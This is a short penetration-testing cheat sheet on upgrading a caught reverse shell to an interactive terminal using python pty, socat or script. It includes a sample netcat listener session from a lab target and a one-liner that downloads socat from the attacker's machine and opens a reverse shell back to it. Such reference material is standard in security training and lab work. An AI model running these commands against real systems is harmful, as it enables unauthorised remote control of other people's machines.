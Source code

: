 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["Reverse Shell", "Shell", "Python", "Bash", "Sh", "Tty", "Socat"]
---
```


### Upgrade Shell

#### Check installed binaries

```console
which sh
```

```console
which bash
```

```console
which python3
```

```console
which python
```

{{< tab set1 tab1 active >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.55] 33490
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ 
zsh: suspended  rlwrap nc -lvnp 1337
```

```console
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```console {class="sample-code"}
$ stty raw -echo; fg
[1]  + continued  rlwrap nc -lvnp 1337
tomcat@kotarak-dmz:/$ 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Start a local http server
python3 -m http.server 80
```

```console
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:<LOCAL_PORT>
```

```console
# In target machine
wget -q http://<LOCAL_IP>/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LOCAL_IP>:<LOCAL_PORT>
```

```console
# In our local Linux machine
export TERM=xterm-256color
```

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
script -qc /bin/bash /dev/null
```

{{< /tabcontent >}}
